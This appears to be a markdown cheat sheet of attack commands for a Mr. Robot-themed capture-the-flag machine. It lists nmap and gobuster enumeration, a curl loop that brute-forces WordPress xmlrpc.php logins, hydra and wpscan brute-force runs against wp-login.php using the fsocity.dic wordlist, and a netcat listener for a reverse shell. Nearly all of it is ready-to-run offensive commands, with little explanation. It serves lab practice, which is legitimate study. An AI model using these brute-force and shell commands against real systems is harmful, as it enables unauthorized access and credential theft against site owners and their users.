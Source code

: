 ### How to scan ports with nmap
```bash
IP_ADDR=
nmap -sV -sC -oA initial $IP_ADDR
```
### How to enumerate web server directories
```bash
WORDLISTS=
gobuster dir -u HTTP://${IP_ADDR} -w ${WORDLISTS} -t 100 -q -o gobuster.txt
```
## How to filter unique string
```bash
wc -l fsocity.dic # number of lines
sort fsocity.dic | uniq | wc -l # unique words
sort fsocity.dic | uniq > example_filtered.txt
```
### A LOTL attack 
```bash
username="admin"
password="password"
for pass in $(cat passwords.txt); do curl -s -X POST -d "<?xml version='1.0'?><methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>$username</value></param><param><value>$pass</value></param></params></methodCall>" http://10.10.6.115/xmlrpc.php | grep -q 'Incorrect username or password.' || echo "Found credentials: $username:$pass"; done
```
### How to bruteforce input fields with hydra
Username
```bash
IP_ADDR=
hydra -L fsocity.dic -p example $IP_ADDR http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30
hydra -L fsocity.di -p example $IP_ADDR http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F$IP_ADDR%2Fwp-admin%2F&testcookie=1:Invalid Username" -t 30
```
Password
```bash
IP_ADDR=
hydra -l elliot -P fsocity.dic $IP_ADDR http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F$IP_ADDR%2Fwp-admin%2F&testcookie=1:The password you entered for the username"
```
### How to bruteforce input fields with wpscan
```bash
wpscan --url http://${IP_ADDR} --passwords fsocity.dic --usernames Elliot  
```

### How to reverse shell
```bash
nc -lvnp 53
```

### Resource
https://www.blackhillsinfosec.com/hacking-with-hydra/

https://medium.com/@hackermentor/vulnhub-mr-robot-walkthrough-9309702b8e8
